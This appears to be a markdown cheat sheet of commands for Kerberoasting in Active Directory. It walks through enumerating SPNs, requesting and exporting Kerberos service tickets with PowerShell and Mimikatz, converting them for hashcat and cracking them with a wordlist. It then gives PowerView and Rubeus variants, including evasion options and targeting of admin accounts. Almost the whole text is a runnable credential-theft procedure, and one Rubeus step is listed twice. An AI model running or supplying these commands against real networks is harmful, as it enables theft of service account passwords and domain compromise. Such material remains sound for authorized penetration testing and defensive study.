 ```yaml
---
legal-banner: true
---
```


### **STEP 1: PREPARATION AND SPN ENUMERATION**

1.  List all Service Principal Names (SPNs) in the domain:  
    `setspn.exe -Q */*`
2.  Add .NET Framework class to PowerShell session:  
    `Add-Type -AssemblyName System.IdentityModel`
3.  Request a Ticket Granting Service (TGS) ticket for a specific SPN:  
    `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-SQL-hackfast.example.local:1433"`
4.  Retrieve all tickets:  
    `setspn.exe -T EXAMPLE.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`

### **STEP 2: EXPORT AND PREPARE KERBEROS TICKETS**

5.  Use Mimikatz to list and export Kerberos tickets:  
    `mimikatz # kerberos::list /export`
6.  Convert tickets to base64 for easier transport:  
    `mimikatz # base64 /out:true`
7.  Remove new lines and spaces:  
    `echo "[BASE64 BLOB]" | tr -d \\n`
8.  Save the blob to a .kirbi file:  
    `cat encoded_file | base64 -d > sqldev.kirbi`

### **STEP 3: EXTRACT AND CRACK THE KERBEROS TICKET**

9.  Extract the Kerberos ticket using kirbi2john.py:  
    `python2.7 kirbi2john.py sqldev.kirbi > crack_file`
10. Modify the file for Hashcat:  
    `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`
11. Confirm the prepared hash:  
    `cat sqldev_tgs_hashcat`
12. Crack the hash with Hashcat:  
    `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`

### **POWERVIEW FOR SPN ENUMERATION AND TICKET EXTRACTION**

1.  Import PowerView:  
    `Import-Module .\PowerView.ps1`
2.  List domain users with SPNs:  
    `Get-DomainUser * -spn | select samaccountname`
3.  Get SPN tickets for a specific user and format for Hashcat:  
    `Get-DomainUser -Identity [USERNAME] | Get-DomainSPNTicket -Format Hashcat`

### **RUBEUS FOR ADVANCED KERBEROASTING TECHNIQUES**

1.  Perform Kerberoasting and output hashes to a file:  
    `.\Rubeus.exe kerberoast /outfile:hashes.txt`
    
2.  Perform Kerberoasting with alternate credentials:  
    `.\Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD`
    
3.  Perform Kerberoasting with an existing TGT:  
    `.\Rubeus.exe kerberoast /ticket:BASE64 | /ticket:FILE.KIRBI`
    
4.  Perform "opsec" Kerberoasting:  
    `.\Rubeus.exe kerberoast /rc4opsec`
    
5.  Perform "opsec" Kerberoasting:  
    `.\Rubeus.exe kerberoast /rc4opsec`
    
6.  Request tickets for accounts with an admin count of 1:  
    `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1'`
    
7.  Perform Kerberoasting with a delay and jitter:  
    `.\Rubeus.exe kerberoast /delay:5000 /jitter:30`